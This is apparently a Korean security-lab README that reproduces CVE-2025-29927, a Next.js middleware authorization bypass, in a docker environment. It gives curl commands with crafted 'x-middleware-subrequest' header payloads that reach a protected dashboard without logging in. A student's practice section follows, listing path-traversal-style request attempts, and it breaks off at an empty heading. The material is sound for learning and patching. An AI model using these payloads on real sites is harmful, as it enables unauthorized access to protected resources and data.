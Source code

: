 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [김민수 (@idealinsane)](https://github.com/idealinsane)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)

Next.js는 서버 사이드 렌더링 (Server-Side Rendering), 정적 사이트 생성 (Static Site Generation), 통합 라우팅 시스템 (Integrated Routing System) 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크입니다.
인증 (Authentication) 및 인가 (Authorization) 목적으로 **미들웨어 (Middleware)** 를 사용하도록 구성된 경우, 버전 14.2.25 이전 및 15.2.3 이전에서는 인가 우회 (Authorization Bypass) 취약점이 존재합니다.

이 취약점은 공격자가 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회함으로써 보호된 자원과 민감한 데이터에 무단 접근할 수 있게 만듭니다.

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

## 실습 결과 (yeojin-206)
###정상요청
```bash
curl -i http://localhost:3000/admin
#307 Temporary Redirect

curl -i http://localhost:3000/%2fadmin 
307 Temporary Redirect

curl -i http://localhost:3000/admin/. 
308 Permanent Redirect

curl -i http://localhost:3000/admin%2f
307 Temporary Redirect

curl -i http://localhost:3000/./admin
307 Temporary Redirect

curl -i http://localhost:3000/_next/../admin
307 Temporary Redirect

```
###비정상요청
